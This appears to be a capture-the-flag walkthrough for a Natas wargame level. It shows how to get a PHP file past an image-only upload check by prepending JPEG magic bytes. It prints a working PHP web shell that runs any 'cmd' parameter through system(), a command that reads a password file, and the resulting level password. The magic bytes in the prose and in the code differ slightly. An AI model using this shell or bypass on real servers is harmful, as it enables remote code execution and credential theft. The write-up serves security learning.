 This page is identical to the previous level, but with 'For security reasons, we now only accept image files!' added.

Looking at the source code, the only major difference is the following 2 lines:
```php
} else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
    echo "File is not an image";
```

If we can find some way to bypass the exif_imagetype check, we can simply upload a PHP file like last time and have that execute whatever code we wish.

After a bit of searching, I came to find info on [file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures).

Looking up the information for exif file signatures, I found that I could insert `FF D8 FF E1` at the start of my `test.php` file in a hex editor, and the system would identify it as a jpeg.

To save you from looking at my solution for Natas 12, here is the code in the php file:
```php
\FF\D8\FF\D1\00\00<?php
 if(isset($_REQUEST['cmd'])){
 echo "<pre>";
 $cmd = ($_REQUEST['cmd']);
 system($cmd);
 echo "</pre>";
 die;
 }
 ?>
  ```

From there, I simply uploaded the file as usual, changed the extension to php in Burp before the server received it, and added my `?cmd= cat /etc/natas_webpass/natas14` at the end of the browser URL for my uploaded file.

Password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
